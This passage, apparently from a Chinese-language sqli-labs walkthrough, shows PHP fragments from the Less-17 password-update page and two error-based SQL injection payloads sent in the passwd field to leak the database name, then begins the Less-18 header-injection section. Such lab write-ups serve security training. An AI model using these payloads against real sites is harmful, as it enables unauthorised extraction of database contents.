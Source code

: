 echo "&lt;/br&gt;&lt;/br&gt;";

echo "&lt;/font&gt;";

}

else

{

echo '&lt;font color= "#FFFF00" font size = 3 &gt;';

//echo " You password has been successfully updated " ;

echo "&lt;br&gt;";

echo "&lt;/font&gt;";

}

echo '&lt;img src="../images/flag1.jpg" /&gt;';

//echo 'Your Password:' .$row['password'];

echo "&lt;/font&gt;";

}

else

{

echo '&lt;font size="4.5" color="#FFFF00"&gt;';

//echo "Bug off you Silly Dumb hacker";

echo "&lt;/br&gt;";

echo '&lt;img src="../images/slap1.jpg" /&gt;';

echo "&lt;/font&gt;";

}

}

?&gt;</pre>

<pre class="lang:tsql decode:true" title="Payload1">// 输入字符不能注入
uname=admin&amp;passwd=ad' and (select 1 from (select count(*),(concat("~",database(),"~",
floor(rand(0)*2)))name from information_schema.tables group by name)b) # &amp;submit=Submit</pre>

<pre class="lang:tsql decode:true " title="Payload2">// 输入数字才能注入
uname=admin&amp;passwd=123' and (select 1 from (select count(*),(concat("~",database(),"~",
floor(rand(0)*2)))name from information_schema.tables group by name)b) # &amp;submit=Submit</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less17_inject.png" />

<h2>Less-18</h2>
Less-18是HTTP Header注入，在这里可以用账号admin密码admin登入，由于之前有题目是更改这个密码的，如果提示密码错误请重置数据库。

<h3>测试过程</h3>
用任意账号密码登陆发现不能登陆，也没有其他信息

